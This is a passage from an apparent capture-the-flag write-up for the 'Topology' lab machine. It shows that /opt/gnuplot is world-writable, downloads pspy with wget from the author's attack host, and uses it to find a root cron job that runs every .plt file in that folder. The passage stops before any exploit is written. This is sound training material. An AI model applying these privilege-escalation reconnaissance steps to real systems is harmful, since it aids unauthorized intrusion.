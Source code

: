 However, vdaisley can write in this directory:

```
vdaisley@topology:/opt$ ls -ld gnuplot/
drwx-wx-wx 2 root root 4096 Sep  7 13:49 gnuplot/

```

#### Processes

`ps auxww` doesn’t show anything that jumps out as super interesting to me. I’ll grab a copy of [pspy](https://github.com/DominicBreuker/pspy) from GitHub, host it on my VM in a web-accessible directory, and upload it to Topology with `wget`:

```
vdaisley@topology:/dev/shm$ wget 10.10.14.6/pspy64
--2023-09-07 13:45:22--  http://10.10.14.6/pspy64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                               100%[==================================>]   2.96M  3.67MB/s    in 0.8s

2023-09-07 13:45:23 (3.67 MB/s) - ‘pspy64’ saved [3104768/3104768]

```

I’ll set it as executable and run it:

```
vdaisley@topology:/dev/shm$ chmod +x pspy64
vdaisley@topology:/dev/shm$ ./pspy64
...[snip]...

```

On the minute, there’s a set of processes that show up:

```
2023/09/07 13:47:01 CMD: UID=0     PID=218687 | /usr/sbin/CRON -f
2023/09/07 13:47:01 CMD: UID=0     PID=218686 | /usr/sbin/CRON -f
2023/09/07 13:47:01 CMD: UID=0     PID=218688 |
2023/09/07 13:47:01 CMD: UID=0     PID=218690 | /usr/sbin/CRON -f
2023/09/07 13:47:01 CMD: UID=0     PID=218689 | /bin/sh /opt/gnuplot/getdata.sh
2023/09/07 13:47:01 CMD: UID=0     PID=218691 | find /opt/gnuplot -name *.plt -exec gnuplot {} ;
2023/09/07 13:47:01 CMD: UID=0     PID=218700 | sed s/,//g
2023/09/07 13:47:01 CMD: UID=0     PID=218699 | /bin/sh /opt/gnuplot/getdata.sh
2023/09/07 13:47:01 CMD: UID=0     PID=218698 | /bin/sh /opt/gnuplot/getdata.sh
2023/09/07 13:47:01 CMD: UID=0     PID=218697 | uptime
2023/09/07 13:47:01 CMD: UID=0     PID=218696 | gnuplot /opt/gnuplot/loadplot.plt
2023/09/07 13:47:01 CMD: UID=???   PID=218695 | ???
2023/09/07 13:47:01 CMD: UID=???   PID=218694 | ???
2023/09/07 13:47:01 CMD: UID=???   PID=218693 | ???
2023/09/07 13:47:01 CMD: UID=0     PID=218701 | /bin/sh /opt/gnuplot/getdata.sh
2023/09/07 13:47:01 CMD: UID=0     PID=218702 | /bin/sh /opt/gnuplot/getdata.sh
2023/09/07 13:47:01 CMD: UID=0     PID=218703 | gnuplot /opt/gnuplot/networkplot.plt

```
